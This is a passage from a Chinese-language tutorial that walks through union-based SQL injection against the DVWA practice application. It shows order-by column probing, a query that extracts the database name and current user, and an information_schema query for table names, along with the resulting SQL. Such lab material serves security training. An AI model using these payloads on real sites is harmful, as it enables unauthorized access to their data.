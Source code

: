 ![](\assets\images\2021\mysql\inject-2.png)

当输入`1' order by 3#`时，返回错误！

![](\assets\images\2021\mysql\inject-3.png)

由此得知，`users`表中只有两个字段，数据为两列！

> 我们使用`union select`联合查询继续获取信息！

在输入框中输入`1' union select database(),user()#`进行查询！返回结果

![](\assets\images\2021\mysql\inject-4.png)

实际执行的Sql语句是：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select database(),user()#'
```

通过返回信息，我们成功获取到：

- 当前网站使用数据库为`dvwa`
- 当前执行查询用户名为`root@localhost`

接下来我们尝试获取`dvwa`数据库中的表名！

在输入框中输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询！

![](\assets\images\2021\mysql\inject-5.png)
